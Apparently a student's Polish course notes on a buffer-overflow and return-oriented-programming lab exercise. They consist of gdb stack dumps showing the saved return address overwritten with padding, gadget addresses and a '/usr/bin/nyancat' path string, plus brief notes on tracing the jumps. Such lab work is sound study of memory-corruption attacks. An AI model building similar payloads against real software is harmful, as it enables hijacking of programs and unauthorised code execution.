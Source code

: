 ```yaml
---
tags: ASK
---
```

# ASK - LISTA 9

przed readline (break *0x0000000000401d17):
```
>>> x/16xg $rsp
0x7fffffffdd90:	0x0000000000000000	0x000000000041185e
0x7fffffffdda0:	0x00007fffffffdf08	0x0000000000400488
0x7fffffffddb0:	0x0000000000402d60	0x0000000000402e00
0x7fffffffddc0:	0x0000000000000000	0x0000000000401d45 - adres powrotu do main
0x7fffffffddd0:	0x0000000000400488	0x0000000000402590
0x7fffffffdde0:	0x0000000000000000	0x0000000200000000
0x7fffffffddf0:	0x00007fffffffdf08	0x0000000000401d2c
0x7fffffffde00:	0x0000000000000000	0x0000000600000000

```
po readline (break *0x0000000000401d1f)
```
0x7fffffffdd90:	0xdec0addedec0adde	0xdec0addedec0adde
0x7fffffffdda0:	0xdec0addedec0adde	0xdec0addedec0adde
0x7fffffffddb0:	0xdec0addedec0adde	0xdec0addedec0adde
0x7fffffffddc0:	0xdec0addedec0adde==0x0000000000401d67 - adresy gadget
0x7fffffffddd0:=0x000000000040232d==0x0000000000000000 - adresy gadget
0x7fffffffdde0:	0x6e69622f7273752f	0x7461636e61796e2f
0x7fffffffddf0:	0x00007fffffff0000	0x0000000000401d2c
0x7fffffffde00:	0x0000000000000000	0x0000000600000000
```

Jak obserwować skoki?
Dajemy breakpoint na
```
0x0000000000401d2b  echo+28 retq 
```

i patrzymy na adres powrotu w 
i robimy skoki 

0x000000000040232d

## 5
gcc -c -fverbose-asm -fno-asynchronous-unwind-tables -z -S p1.c 